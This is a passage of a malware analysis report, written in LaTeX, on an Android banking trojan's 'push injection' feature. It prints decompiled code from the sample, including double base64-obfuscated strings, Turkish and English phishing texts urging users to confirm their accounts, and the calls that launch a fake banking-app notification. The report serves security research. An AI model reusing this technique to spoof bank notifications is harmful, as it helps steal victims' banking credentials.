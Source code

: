 \documentclass[10pt,titlepage]{article}
\begin{document}
\newpage
\subsubsection{PUSH INJECTION} \label{pushinjection}
As described in chapter \ref{featureselection} the function \textit{naqsl.ebxcb.exu.ServiceCommands.fddo()} is able to start malware features. Also the \textit{naqsl.ebxcb.exu.ServiceModuleNotification} Service will be configured and launched there ( see Listing \ref{servicecommandoslaunchespushinjection} ). This service is intended to perform the push injection attack wich is able to create a malicious Android notification and meme it like it would come from a installed banking app.
 
\begin{lstlisting}[label=servicecommandoslaunchespushinjection,caption=\textit{naqsl.ebxcb.exu.ServiceCommands.fddo()} searches for some hardcoded strings matching to the device language and starts the \textit{naqsl.ebxcb.exu.ServiceModuleNotification} Service by calling the \textit{android.app.Context.startService()} method.,frame=tb]
  // TR
  java.lang.String r12 = "VkZJPQ=="
  java.lang.String r12 = naqsl.ebxcb.exu.Cint.m430int(r12)     
  java.lang.String r12 = naqsl.ebxcb.exu.Cint.m430int(r12)     
  boolean r12 = r11.contains(r12)     // Catch:{ Exception -> 0x0d76 }
  if (r12 == 0) goto L_0x0cbe
  
  // GÜVENLİK BİRİMİ
  java.lang.String r11 = "UjhPY1ZrVk9UTVN3U3lCQ3hMQlN4TEJOeExBPQ=="
  java.lang.String r11 = naqsl.ebxcb.exu.Cint.m430int(r11)     
  java.lang.String r11 = naqsl.ebxcb.exu.Cint.m430int(r11)     
  
  // Sayın müşterimiz lütfen hesabınızı onaylayın aksi takdirde bloke edilecektir.
  java.lang.String r12 =
       "VTJGNXhMRnVJRzNEdk1XZmRHVnlhVzFwZWlCc3c3eDBabVZ1SUdobGMyRml4T" + 
       "EZ1eExGNnhMRWdiMjVoZVd4aGVjU3hiaUJoYTNOcElIUmhhMlJwY21SbElHSn" + 
       "NiMnRsSUdWa2FXeGxZMlZyZEdseUxnPT0="
  goto L_0x0c7a
  [...]
L_0x0d34: // default of switch-case
  // Urgent message!
  java.lang.String r11 = "VlhKblpXNTBJRzFsYzNOaFoyVWg="
  java.lang.String r11 = naqsl.ebxcb.exu.Cint.m430int(r11)     // Catch:{ Exception -> 0x0d76 }
  java.lang.String r11 = naqsl.ebxcb.exu.Cint.m430int(r11)    
  
  // Confirm your account
  java.lang.String r12 = "UTI5dVptbHliU0I1YjNWeUlHRmpZMjkxYm5RPQ=="
  goto L_0x0c7a
L_0x0d42:
  android.content.Intent r13 = new android.content.Intent    
  java.lang.Class<naqsl.ebxcb.exu.ServiceModuleNotification> r14 =
                                  naqsl.ebxcb.exu.ServiceModuleNotification.class
  r13.<init>(r0, r14)     // Catch:{ Exception -> 0x0d76 }
  java.lang.String r14 = "WVhCd2JtRnRaUT09" // appname
  [...]
  android.content.Intent r5 = r13.putExtra(r14, r5)     
  java.lang.String r13 = "ZEdsMGJHVT0=" // title
  [...]
  android.content.Intent r5 = r5.putExtra(r13, r11)     
  java.lang.String r11 = "ZEdWNGRBPT0=" // text
  [...]
  android.content.Intent r5 = r5.putExtra(r11, r12)     
  r0.startService(r5)     // Catch:{ Exception -> 0x0d76 }
\end{lstlisting}
\end{document}
